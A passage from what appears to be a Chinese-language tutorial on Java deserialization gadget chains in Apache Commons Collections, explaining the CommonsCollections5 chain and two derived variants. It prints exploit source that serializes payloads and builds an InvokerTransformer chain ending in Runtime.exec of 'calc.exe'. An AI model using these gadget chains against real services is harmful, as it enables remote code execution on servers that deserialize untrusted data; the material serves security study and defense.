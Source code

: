 ```
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections4.ser");
        ObjectOutputStream obj_out = new ObjectOutputStream(new FileOutputStream(file));
        obj_out.writeObject(queue);
    `}`
`}`
```



## CommonsCollections5

反序列化调用链如下所示：

```
BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            　　InvokerTransformer.transform()
                                    Runtime.exec()
```

cc5这条链相对于前四条来说外部的入口点变了，但是内部还是没变，依然是通过lazymap.get，那么后面就可以跟cc1的调用一样，直接通过1层constantTransformer和3层invokerTransformer结合来rce，那么相当于外面的衣服换了，里面的衣服没换

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0160b0d5915c6ccd71.png)

`Commonscollections5衍生1`：想想cc3的构造，对于cc1而言，和cc5相比正好相反，所以将cc3的链接点放到cc5，从而就可以衍生出第一条新的利用链<br>`Commonscollections5衍生2`：因为TiedMapEntry键对应的值是可控的，因此第一次传入this.factory.transform的key也是可控的，因此根据cc2的特点，直接在外部放入templatesImpl类的实例，然后结合invokeTransformer调用该类的newTransformer或者getoutputProperties又衍生出第二条新的利用链<br>**CommonsCollections5.java(原版exp):**

```
package CommonsCollections5;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
public class exp `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException `{`
        //构造内部的constant+invoke转换链
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]`{`String.class,Class[].class`}`,
                        new Object[]`{`"getRuntime",new Class[0]`}`),
                new InvokerTransformer("invoke",
                        new Class[]`{`Object.class,Object[].class`}`,
                        new Object[]`{`null,null`}`),
                new InvokerTransformer("exec",
                        new Class[]`{`String.class`}`,
                        new Object[]`{`"calc.exe"`}`)
        `}`;
```